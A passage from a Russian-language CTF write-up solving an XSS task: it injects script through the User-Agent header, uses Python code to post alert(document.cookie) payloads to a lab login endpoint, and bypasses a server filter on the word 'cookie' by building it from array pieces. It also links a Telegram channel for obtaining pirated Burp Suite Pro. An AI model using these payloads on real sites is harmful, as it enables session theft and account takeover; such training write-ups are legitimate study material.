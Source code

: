 Все прошло замечательно. При просмотре страницы, у аккаунта меняется пароль. Поменяем ```user="asdf"``` на ```user=admin``` и оправим.

При решении тасков на клиент-часть, держим в голове, что скорее всего страницу периодически будет посещать чекер. По другому аккаунт с использованием XSS просто не угнать, поэтому закидываем несколько атак, через примерно 10-15 секунд, и пробуем логинится.
![[Pasted image 20240313000841.png]]
Готово, теперь разберем способ для настоящих мужчин.
# Второй способ (мужской)
Для данного способа вам потребуется ```Burp Suite Pro```. Почему именно PRO?
Потому, что там есть ```Collaborator```, которого нет в бесплатной версии. 
Переходим по ссылке ``` https://t.me/pt_soft``` чтобы "КУПИТЬ" нашу лицензию.
В поиске по каналу в телеге ищем **Burpsuite**. И устанавливаем.

## Проработка мужской атаки

После поиска в гугл по запросу "XSS steal cookie payloads" и изучения результатов понимаем что нам нужно захватить ```document.cookie``` **значение**.

Пробуем простой alert();

````python 
import requests


payload = '<script>alert(document.cookie);</script>'

user = "asdf" 
headers = {'User-Agent': payload}
data = {"username":user, "password":"aboba"}


response = requests.post('http://62.173.140.174:16035/login.php', headers=headers, data=data)
 
print(response.status_code)
print(response.text)
````
И сталкиваемся с проблемой
![[Pasted image 20240313002008.png]]
Все отработало, но вот alert'a нет. А это все потому, что на Codeby.games есть похожий таск, и автор данного решил чтобы все было не так просто, применить фильтрацию на серверной части на слово ```cookie```.
Мы это тоже обойдем, нужно просто немного **подумать**.
## Обход фильтрации
Не забываем, что у нас есть неограниченный доступ к **javascript** на клиентской части.
в функции alert() нам нужно вывести document.cookie.
Попробуем сделать это с помощью переменных.
Необязательно транспортировать слово cookie именно как слово, можно его собрать из массива!
````javascript
const vv = ["coo", "kie"].join(""); # передаем его раздельно и с помощью join собираем в одно слово
alert(document[vv]); # не забываем что document это обьект, и к его значениям можно обращаться не только через точку, но и через [значение]
````
Пробуем этот payload.
````python 
import requests


payload = '<script>const vv = ["coo", "kie"].join("");alert(document[vv]);</script>'

user = "asdf" 
headers = {'User-Agent': payload}
````
